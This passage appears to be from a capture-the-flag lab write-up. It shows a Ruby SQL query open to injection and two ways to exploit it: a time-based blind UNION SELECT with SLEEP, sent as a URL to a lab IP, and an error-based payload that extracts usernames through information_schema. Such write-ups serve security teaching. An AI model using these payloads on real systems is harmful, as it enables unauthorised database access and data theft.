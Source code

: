 ![](../../.gitbook/assets/83492ce915c446f69d429bc13014427b.png)

This showed the source code for the construction of an SQL query.

```ruby
sql = "SELECT username FROM users WHERE username = '" + params[:URL].to_s + "'"
```

This is a classic SQL injection vulnerability. However, the difference here is that no matter whether the query evaluates to True or False, we get the same result, i.e. we don't get any feedback on the output. However, the **MySQL error gets reflected**, so this is an **error-based injection**.

## Exploitation

### Option 1 - Time Based Boolean Blind

```sql
SELECT username FROM users WHERE username = '' UNION SELECT IF(1=1, SLEEP(5), null)-- -
```

`http://192.168.237.127:33033/slug?URL=%27%20UNION%20SELECT%20IF(1=2,%20SLEEP(5),%20null)--%20-`

The `IF` conditional will make the server sleep for 5 seconds if the condition is True, or respond immediately otherwise.

### Option 2 - Error Based

If we do something like

```sql
SELECT username FROM users WHERE username = '' AND 1= (SELECT 1 FROM(SELECT COUNT(*),concat(0x3a,(SELECT username FROM users LIMIT 0,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)-- -
```
